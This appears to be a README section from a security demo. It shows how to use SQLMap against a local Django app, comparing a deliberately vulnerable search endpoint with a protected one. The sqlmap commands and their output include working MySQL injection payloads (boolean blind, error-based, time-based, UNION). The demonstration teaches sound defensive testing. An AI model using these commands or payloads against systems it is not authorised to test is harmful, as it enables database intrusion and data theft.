 ### SQL injection testing with SQLmap 

SQLMap is a powerful tool for automating SQL injection testing. 
It allows you to scan web applications for SQL injection vulnerabilities, identify and exploit these vulnerabilities, and perform additional database analysis.

#### Installing SQLMap:

1. Clone the SQLMap repository from GitHub using the following command:

    ```git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev```

2. Change to the sqlmap-dev directory using the command:

    ```cd sqlmap-dev```

#### Running SQLMap:

Example command to run SQLMap:

```python sqlmap.py -u "http://127.0.0.1:8000/searchProtected/" --data="search_query=admin" --level=5 --risk=3```

**In this comand:**

* u http://localhost:8000/ specifies the URL of your application that you want to test.

* --data="search_query=admin" specifies the POST request data used to send data to the server.

* --level=5 and --risk=3 set the scanning level and risk. The higher the values, the more in-depth and intensive the analysis will be performed by SQLMap.

#### Testing Vulnerable page

**_The command:_** ```python sqlmap.py -u "http://127.0.0.1:8000/searchVulnerable/" --data="search_query=admin" --level=1 --risk=1```

**_Result of testing:_**
```
Parameter: search_query (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: search_query=admin' AND 5175=5175#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: search_query=admin' AND GTID_SUBSET(CONCAT(0x717a6b7871,(SELECT (ELT(8009=8009,1))),0x71786a7671),8009)-- GtAh

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search_query=admin' AND (SELECT 6265 FROM (SELECT(SLEEP(5)))Utqh)-- QElk

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: search_query=admin' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x717a6b7871,0x426d544d517a4758686562684253744e736e795869486162456d725968536e686a6d5a716366666c,0x71786a7671)#
```
This log shows that the 'search_query' parameter is susceptible to various types of SQL injection attacks, such as boolean-based blind, error-based, time-based blind and UNION query. This indicates insufficient or non-existent use of SQL injection protection mechanisms in your application. Such vulnerabilities can lead to serious consequences, including data compromise and application corruption.
#### Testing Protected page

**_The command:_** ```python sqlmap.py -u "http://127.0.0.1:8000/searchProtected/" --data="search_query=admin" --level=2 --risk=2```

**_Result of testing:_**
```
[22:09:32] [WARNING] POST parameter 'search_query' does not seem to be injectable
[22:09:32] [CRITICAL] all tested parameters do not appear to be injectable.
```

SQLMap was unable to detect SQL injection vulnerabilities in the 'search_query' parameter of your application. This may indicate that the application is protected from SQL injection by Django through the use of parameterized queries or other security mechanisms.
